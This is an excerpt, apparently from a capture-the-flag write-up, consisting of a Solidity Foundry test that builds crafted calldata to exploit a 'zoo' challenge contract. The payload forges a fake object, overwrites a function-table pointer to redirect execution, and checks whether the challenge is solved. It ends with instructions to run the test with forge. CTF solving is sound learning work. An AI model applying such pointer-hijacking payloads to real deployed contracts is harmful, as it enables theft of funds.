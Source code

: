 ```solidity
        // EDIT{1) | IDX(1) | EDIT_TYPE(1) | NEW_TYPE(2)
        // DEL(1) | IDX(1)

        // function pointer: 0x80 ( 0x312 )
        // local animal : 0x300
        // first animal: 0x320
        // first alloc : 0x420
        // fake_animal : 0x460
        // 0x323 : over pause

        uint256 target_idx = uint256(int256(-1)) - uint256(keccak256(abi.encode(2)));
        uint16 target_jmp = 0x323;
        uint16 function_table = 0x80;
        uint16 first_alloc = 0x400;
        uint16 local_animal = 0x300;
        uint16 fake_animal_idx = 0x460;
        target_idx /= 2;
        target_idx += 1;

        bytes memory call = "";
        bytes memory fake_animal = abi.encodePacked(uint256(target_idx), uint256(0x20), hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x00),uint16(fake_animal.length),uint16(first_alloc), fake_animal);
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(function_table));
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(target_jmp));
        call = abi.encodePacked(call, uint8(0x20),uint8(0x06),uint8(0x22), uint16(local_animal));
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(fake_animal_idx));
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");

        // Add length padding to ensure the correct offset
        uint256 length = call.length;
        console2.log("length", length);
        uint256 target = 0x200 - length;
        for (uint i = 0; i < target; i++) {
            call = abi.encodePacked(call, hex"ba");
        }
        (bool success, bytes memory out) = address(zoo).call(call);
        console2.log("success", success);
        console2.log("length: ", out.length);
        console2.logBytes(out);
        console2.log("solved?", zoo.isSolved());
    }
}
```
just write this code to `test/ZOO.t.sol` and run this command
> forge debug test/ZOO.t.sol:ZOOTest -s "test_run()"
